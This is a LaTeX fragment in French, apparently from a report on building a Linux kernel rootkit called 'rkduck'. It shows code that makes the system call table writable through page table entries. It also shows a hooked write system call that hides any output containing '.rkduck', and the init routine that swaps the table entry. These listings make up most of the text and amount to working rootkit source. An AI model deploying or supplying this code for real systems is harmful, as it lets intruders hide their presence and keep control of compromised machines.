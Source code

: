 \documentclass[12pt]{article}
\begin{document}
        Comme la mémoire kernel est partagée entre tous les éléments opérant au niveau du noyau, il est possible de remplacer les pointeurs vers les appels système par des fonctions définies dans notre rootkit. Le problème étant que la page  mémoire contenant la table des appels système est en lecture seule. Il faut donc au préalable modifier les droits sur cette dernière grâce à la structure \texttt{pte\_t} (Page Table Entry) qui contient les attributs d'une page donnée. Ce qui est rendu possible par la fonction suivante.
        
\begin{listing}[H]
\begin{verbatim}
int set_page_rw(ptr_t address) {
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);

    if (pte->pte &~ _PAGE_RW) {
        pte->pte |= _PAGE_RW;
    }

    return 0;
}
\end{verbatim}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:3}
\end{listing}

		Il ne reste plus qu'à remplacer l'appel système. Dans l'exemple qui suit, l'appel système détourné est \texttt{write}. La nouvelle fonction \texttt{write} va regarder si le buffer à afficher contient la chaîne de caractères ".rkduck". Si c'est le cas, la fonction ne renvoie rien, sinon, on fait appel à l'originale en lui passant les mêmes arguments qu'à notre fonction détournée.
		
\begin{listing}[H]
\begin{verbatim}
asmlinkage ssize_t duck_write(int fd, const char __user *buff, ssize_t count) {
	int r = 0;
	char *proc_protect = ".rkduck";
	char *kbuff = (char *) kmalloc(256, GFP_KERNEL);
	
	if (!copy_from_user(kbuff, buff, 255)) {
		if (strstr(kbuff, proc_protect)) {
			kfree(kbuff);
			return EEXIST;
		}

		r = (*original_write)(fd, buff, count);
		kfree(kbuff);
	}
		
	return r;
}
\end{verbatim}
\caption{Appel système \texttt{write} modifié}
\label{listing:3}
\end{listing}

\begin{listing}[H]
\begin{verbatim}
int duck_init(void) {
    /* [...] */    
    set_page_rw((ptr_t) sys_call_table);
    original_write = xchg(&sys_call_table[__NR_write], duck_write);
    set_page_ro((ptr_t) sys_call_table);
	/* [...] */
    return 0;
}
\end{verbatim}
\caption{Détournement de l'appel système \texttt{write}}
\label{listing:3}
\end{listing}
\end{document}
